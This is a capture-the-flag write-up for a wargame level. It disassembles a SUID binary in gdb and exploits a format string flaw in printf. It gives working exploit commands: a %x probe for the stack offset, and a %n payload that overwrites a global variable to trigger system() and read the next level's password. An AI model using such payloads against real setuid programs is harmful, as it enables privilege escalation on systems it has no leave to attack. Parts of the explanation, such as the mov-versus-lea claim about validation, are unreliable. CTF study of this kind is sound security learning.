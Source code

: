 # Level 4

## First clue
- once logged in as level4 we find again an executable, `level4` owned by `level5` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) pdisas frame_dummy


```
- there are three main functions, `main`, `p` and `n`
- first we inspect main
## Main
```
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`
## Function n

```
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret  
```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls function p passing as argument the user input retrieved with fget and stored in 0x208 
- it compares the return of function p (the value stored in global variable m at address 0x8049810 that is moved to eax) to the value 0x1025544 (that is 16930116 in decimal) at <+59>
- a conditional jump (jne, jump if not equal) suggests that function n decide to execute further instructions based on the return of function p. Which instructions? If the comparison return true it launch a shell via a call to system
## Function p
```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.

```
- allocates 24 bytes (0x18 in hexa)
- it moves to eax regisster a value located at ebp+0x8 that could be an argument pased to the p function
- it passes that argument to the printf funciton
## Vulnerability
- `0x0804844a <+6>:	mov    0x8(%ebp),%eax` => this instruction MOVES THE CONTENT (and not the address) of the argument passed to p function (that is the user input) directly to eax for the printf function to use it as argument as well. This means that the string ritten by the user is passed to printf as it is, without proper validation .
If the proper validation had been put in place we should see instead a LEA (load effective address) of the argument passed to p.
We can exploit a format string vulnerability. How?

## Toward the Solution
- back to function n, it compares the content of the return of function p with the hexadecimal value 0x1025544, at this line `0x08048492 <+59>:  cmp    $0x1025544,%eax`. 0x1025544 is 16930116 in decimal.
If we find a way for function p to return value 16930116n we get true and the system call is triggered. 
## Finding Buffer Position: 
We first find the position of our buffer in memory by injecting format specifiers into the input string and observing the output.


`python -c 'print "aaaa" + " %x" * 15' | ./level4`
- we find `61616161` (4 times "a" in hexa) at position 12 after the output "aaaa" -> the format specifier %x without argument print the content of memory cases.

## Manipulating Return Value: 
Once we know the buffer's position (12), we construct an input string that manipulates the return value of function p to 16930116. This is done by padding the memory address of the variable m and using the %n format specifier.

`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4`
Here, "\x10\x98\x04\x08" represents the memory address of m, and %16930112d pads the address, while %12$n writes the number of characters processed so far to the address pointed to by the 12th argument.

## Triggering System Call
With the return value manipulated, the comparison in function n will evaluate to true, triggering the system call that directly print the /level5/.pass containing the flag
